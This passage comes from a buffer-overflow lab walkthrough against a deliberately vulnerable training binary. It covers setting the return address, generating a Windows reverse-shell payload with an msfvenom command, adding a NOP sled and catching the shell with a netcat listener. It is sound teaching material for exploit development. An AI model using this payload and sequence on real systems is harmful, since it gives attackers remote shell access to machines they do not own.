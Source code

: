 Choose an address and update your exploit.py script, setting the "retn" variable to the address, written backwards (since the system is little endian). For example if the address is \x01\x02\x03\x04 in Immunity, write it as \x04\x03\x02\x01 in your exploit.  

## Generate Payload

Run the following msfvenom command on Kali, using your Kali VPN IP as the LHOST and updating the -b option with all the badchars you identified (including \x00):  

`msfvenom -p windows/shell_reverse_tcp LHOST=YOUR_IP LPORT=4444 EXITFUNC=thread -b "\x00" -f c   `

Copy the generated C code strings and integrate them into your exploit.py script payload variable using the following notation:

## Prepend NOPs

Since an encoder was likely used to generate the payload, you will need some space in memory for the payload to unpack itself. You can do this by setting the padding variable to a string of 16 or more "No Operation" (\x90) bytes:

```
padding = "\x90" * 16
```

## Exploit!

With the correct prefix, offset, return address, padding, and payload set, you can now exploit the buffer overflow to get a reverse shell.

Start a netcat listener on your Kali box using the LPORT you specified in the msfvenom command (4444 if you didn't change it).

Restart oscp.exe in Immunity and run the modified exploit.py script again. Your netcat listener should catch a reverse shell!


## Practical

----

First, we need to run `Immunity Debugger` as admin:

![](images/Pasted%20image%2020250529120641.png)

Once we run it as admin we need to open `oscp.exe` file located at the desktop of the administrator user:

![](images/Pasted%20image%2020250529120730.png)

![](images/Pasted%20image%2020250529120742.png)

As seen, the binary is in a paused state, we need to click the `red play button` to start it:

![](images/Pasted%20image%2020250529120831.png)
